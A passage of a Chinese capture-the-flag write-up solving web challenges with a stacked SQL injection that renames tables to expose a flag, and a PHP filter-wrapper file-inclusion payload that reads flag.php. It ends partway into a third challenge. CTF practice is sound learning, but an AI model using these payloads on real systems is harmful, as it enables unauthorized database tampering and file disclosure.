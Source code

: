 ![1626070447738](buuweb_page1.assets/1626070447738.png)

这样就出现了一个问题，如何查询flag的字段值呢

然后就想到了一个问题，当我们输入-1'or '1'='1时，返回的是id以及对应的数据，然后我们查看words表的列名，就发现整好对应了id和data

![1626073440841](buuweb_page1.assets/1626073440841.png)

所以猜测sql语句为

```sql
select id,data from words where id=
```

因为flag存在于数字表，所以我们可以把数字表的表名改为words，把words表改为其他，把字段flag改为id就能实现读取flag

```sql
1';rename table words to words1;rename table `1919810931114514` to words;alter table words change flag id varchar(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;desc  words;#
```

然后再

```sql
1'or '1'='1
```

![1626073782071](buuweb_page1.assets/1626073782071.png)

## [ACTF2020 新生赛]Include

考点:php伪协议

进入题目有个tips，点一下

![1626074043406](buuweb_page1.assets/1626074043406.png)

因为题目为include，该页面又为flag.php，所以可能是让我们读flag.php，伪协议读一下base64-decode即可

```php
?file=php://filter/convert.base64-encode/resource=flag.php
```



## [极客大挑战 2019]Secret File

一开始没什么思路，dirsearch扫了一下没扫出什么东西

查看源码，看到./Archive_room.php

![1626080194433](buuweb_page1.assets/1626080194433.png)

访问一下

![1626080239434](buuweb_page1.assets/1626080239434.png)

点secret就到了end.php什么都没有
